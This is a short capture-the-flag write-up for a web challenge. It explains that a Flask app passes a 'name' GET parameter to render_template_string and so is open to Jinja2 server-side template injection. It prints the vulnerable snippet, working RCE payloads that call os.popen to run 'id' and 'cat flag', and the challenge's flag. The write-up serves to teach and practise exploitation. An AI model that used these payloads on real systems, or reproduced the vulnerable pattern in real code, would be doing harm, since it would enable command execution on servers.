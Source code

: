 # whats-your-name-part2:Web

Flag Proof: `CTF{75df3454a132fcdd37d94882e343c6a23e961ed70f8dd88195345aa874c63e63}`

## Summary:

- Taking a look at the page, we see a flask debugging error page
- It seems to be using templates to show the name we put in a GET param back to us

```python
@app.route("/")

def home():

        output = request.args.get('name')
        output = render_template_string(output)
```

- Knowing this now it is obviously that this is about a SSTI (Server-Side-Template-Injection)
    - Using these two sites
        - [https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)
        - [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
    - Can get us a good understanding about SSTI and how it works, and also gives us the payload we need to exploit it.
    - This one-liner is the easiest way to do it ( the other way is doing it manually and searching for the proper class to give us RCE
    
    ```python
    {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
    ```
    
- Using this payload as a name parameter will give us the flag
    - `{{request.application.**globals**.**builtins**.**import**('os').popen('cat flag').read()}}`
    
    ![Untitled](whats-your-name-part2%20Web%20127d6131f73c4b7f91601a56a4a71580/Untitled.png)